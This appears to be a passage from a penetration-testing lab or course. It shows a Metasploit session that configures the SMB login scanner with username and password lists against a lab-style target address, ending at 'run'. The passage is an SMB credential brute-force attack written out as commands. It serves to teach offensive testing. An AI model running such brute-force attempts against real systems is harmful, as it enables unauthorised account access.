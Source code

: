 ### **Metasploit Framework**

```shell-session
$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run
```